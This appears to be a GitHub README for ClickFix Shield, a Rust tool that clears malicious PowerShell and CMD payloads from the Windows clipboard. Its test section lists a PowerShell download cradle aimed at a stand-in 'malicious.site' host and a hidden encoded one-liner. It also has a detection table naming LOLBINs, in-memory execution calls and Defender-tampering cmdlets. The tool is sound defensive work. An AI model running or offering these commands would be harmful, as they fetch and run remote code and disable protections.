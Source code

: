 🛡️ ClickFix Shield

By Josiah Golden

A lightweight Windows clipboard protection tool built in Rust.
ClickFix Shield detects and blocks suspicious PowerShell or CMD payloads copied to your clipboard —
preventing “ClickFix”-style malvertising attacks before they ever reach your system.


⚙️ What It Does

🧠 Monitors your clipboard for dangerous patterns (PowerShell, CMD, Base64 payloads)

🛑 Automatically clears malicious text before it can be pasted or executed

💾 Logs events to C:\ProgramData\ClickfixShield\shield.log

🪟 Runs silently in the system tray (no console window)

⏸️ Tray menu lets you Pause, Resume, Open Logs, Edit Config, or Exit


🚨 Why It Matters

Modern “ClickFix” and malvertising campaigns trick users into pasting one-liners like:

powershell -nop -w hidden -enc SGVsbG8=


ClickFix Shield intercepts those strings and wipes them before they can run, turning a potential compromise into a harmless copy-paste.


🧩 How It Works

Built in Rust 1.80+

Uses clipboard-win to monitor the Windows clipboard

Detects suspicious patterns via regex

Displays alerts with native Windows APIs (MessageBoxW)

System-tray interface built with tray-icon and tao

Configurable rules stored in JSON (C:\ProgramData\ClickfixShield\config.json)


🧠 Detection Patterns

| **Category**           | **Examples Matched**                        | **Description**                                                            |
| ---------------------- | ------------------------------------------- | -------------------------------------------------------------------------- |
| **LOLBINs**            | `mshta`, `rundll32`, `certutil`, `wmic`     | Living-off-the-land binaries often abused to execute or retrieve payloads. |
| **PowerShell Abuse**   | `IEX`, `DownloadString`, `FromBase64String` | Code execution directly from memory or remote sources.                     |
| **Run-box Commands**   | `powershell ...`, `cmd /c ...`              | Commands likely pasted into Run or terminal prompts.                       |
| **Defender Tampering** | `Set-MpPreference`, `Add-MpPreference`      | Attempts to disable or exclude Windows Defender protections.               |
| **Encoded Payloads**   | Long Base64 strings                         | Obfuscated content typically used for malware delivery.                    |


You can whitelist safe text patterns in config.json via the allow_regex array.


🧰 Installation & Setup

1️⃣ Download or build the binary

cargo build --release


Copy target\release\clickfix-shield.exe to:
C:\ProgramData\ClickfixShield\clickfix-shield.exe

2️⃣ (Recommended) Register Scheduled Task for Auto-Start

Run PowerShell as Admin:

$exe = "C:\ProgramData\ClickfixShield\clickfix-shield.exe"
$taskName = "ClickFixShield"

if (Get-ScheduledTask -TaskName $taskName -ErrorAction SilentlyContinue) {
    Unregister-ScheduledTask -TaskName $taskName -Confirm:$false
}

$action = New-ScheduledTaskAction -Execute $exe
$trigger = New-ScheduledTaskTrigger -AtLogOn
$principal = New-ScheduledTaskPrincipal -UserId $env:USERNAME -LogonType Interactive -RunLevel Highest
$settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries -Hidden

Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -Principal $principal -Settings $settings

3️⃣ Run it once

start "" "C:\ProgramData\ClickfixShield\clickfix-shield.exe"


It will appear in your tray and start monitoring instantly.


🧪 Test It

Copy any of these into your clipboard:

powershell -nop -w hidden -enc SGVsbG8=

IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')

cmd /c calc.exe

✅ The clipboard clears, an alert appears, and the event is logged.


⚡ Configuration

File: C:\ProgramData\ClickfixShield\config.json

{
  "allow_regex": [
    "^Hello world$",
    "^.*my-safe-snippet.*$"
  ],
  "poll_ms": 300
}


allow_regex: List of safe patterns to skip

poll_ms: Clipboard polling interval (ms)


📦 Build Info

| Field    | Value                         |
| -------- | ----------------------------- |
| Language | Rust                          |
| Version  | 0.2.0                         |
| Platform | Windows 10 / 11               |
| Author   | Josiah Golden (@josiahgolden) |



📸 Screenshots (coming soon)

ClickFix Shield Alert in Action:

![ClickFix Alert](image.png)

ClickFix Shield in Tray (Yellow Shield Icon):

![ClickFix In Tray](image-1.png)


🙌 Credits

Created by Josiah Golden (2025)
Built with 🦀 Rust and a mission to make security simpler for everyone.


💬 Connect

LinkedIn: [linkedin.com/in/josiahgolden](https://www.linkedin.com/in/josiah-golden/)

Youtube: https://youtube.com/@josiahgold3n?si=02n0UaLYue1tVbgk

Instagram: https://www.instagram.com/josiahgold3n/

GitHub: github.com/josiahgolden